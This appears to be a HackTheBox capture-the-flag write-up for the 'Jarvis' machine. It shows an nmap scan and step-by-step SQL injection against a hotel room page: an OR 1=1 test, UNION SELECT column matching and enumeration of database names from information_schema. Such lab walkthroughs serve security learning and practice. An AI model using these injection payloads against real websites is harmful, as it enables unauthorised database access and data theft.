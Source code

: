 ```yaml
---
title: Jarvis
categories:
  - HackTheBox
tags: 
  - Infosec,
  - Exploit
  - Web
date: 2020-01-08
---
```


As always, run an nmap scan:

```
 $ nmap -A 10.10.10.135
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.25 ((Debian))
	|_http-title: Stark Hotel
```
(trimmed)

Looking at the web server available, it's a simple listing page for a hotel. When you click a room, it takes you to `/room.php?cod=x` where x is presumably the room ID.

If you replace x with a string or an invalid id, the same page returns but all fields are blank. You can do a quick test for SQL injection with the following request:

```
GET /room.php?cod=999 OR 1=1;#
```

999 is an invalid ID (we assume), but we still get a room returned and shown to us, meaning this is vulnerable.

Since we're shown whatever the first row returned is, a `UNION select` should let us view any data we want with the right conditions. First, we need to match up the right amount of columns.

```
GET /room.php?cod=999 UNION SELECT 1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1,1,1; #
^^^ this one works
```

We get a similar page, but the price, name etc is all 1. Let's start by enumerating the databases:

```
GET /room.php?cod=0 UNION SELECT 1,GROUP_CONCAT(schema_name),1,1,1,1,1 FROM information_schema.schemata; #
```

For me, this set the name of the room to `aaa,hotel,information_schema,mysql,performance_schema`. We miss the first column because the id isn't directly visible in our page, and though it is reflected back at us through the image URL, it's easier to have it shown directly. `aaa` is a weird name, so it's probably someone else and not part of the box. It's safe to say the `hotel` database drives this website.
